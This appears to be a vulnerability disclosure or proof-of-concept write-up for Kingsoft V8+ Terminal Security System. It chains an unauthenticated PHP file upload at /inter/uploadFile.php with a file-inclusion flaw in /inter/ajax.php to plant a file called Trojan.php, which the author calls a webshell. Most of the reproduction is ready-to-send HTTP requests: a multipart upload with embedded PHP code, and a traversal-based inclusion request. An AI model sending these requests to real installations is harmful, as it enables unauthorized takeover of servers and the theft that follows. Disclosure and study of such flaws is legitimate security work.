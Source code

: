 # Kingsoft Security Arbitrary File Upload + File Contains Vulnerabilities

#### 1.Vulnerability link

https://www.ejinshan.net/product_V8/index.html

#### 2.Vulnerability version

V8+ terminal security system

#### 3.Vulnerability reproduction

3.1. First upload the php file in /inter/uploadFile.php to the system, uploadFile.php does not require arbitrary permissions to upload the file

Upload the data package as follows:

```shell
POST /inter/uploadFile.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 315
Content-Type: multipart/form-data; boundary=f308c8c8074428d48dc1fbd26e7b3ed5


--f308c8c8074428d48dc1fbd26e7b3ed5
Content-Disposition: form-data; name="savepath"


111
--f308c8c8074428d48dc1fbd26e7b3ed5
Content-Disposition: form-data; name="file"; filename="123.php"


<?php
$test='<?php phpinfo(); ?>';
file_put_contents("Trojan.php", $test);
?>
--f308c8c8074428d48dc1fbd26e7b3ed5--
```

After the file is successfully uploaded, the echo packet contains the file name. for example:

![Image](Image.png)

But the sad part is that the file cannot be accessed directly,final,I found that the file /inter/ajax.php has file inclusion loopholes, which can contain file upload loopholes. Upload files and write them into the webshell to achieve the effect of controlling the host.

Upload the data package as follows:

```shell
POST /inter/ajax.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 121
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lootcn61f1sd5immqommrt9pv6
Connection: close


{"../../../uploadfile/111/123_127.0.0.1_1618316095_92846":{"name":"admin","password":"21232f297a57a5a743894a0e4a801fc3"}}
```

Finally visit /inter/Trojan.php, successfully access the write file address

eg：

![shell](C:%5CUsers%5CAdministrator%5CDesktop%5CKingsoft%20Security%20Arbitrary%20File%20Upload%20+%20File%20Contains%20Vulnerabiliti%5CKingsoft%20Security%20Arbitrary%20File%20Upload%20+%20File%20Contains%20Vulnerabilities%5Cshell.png)

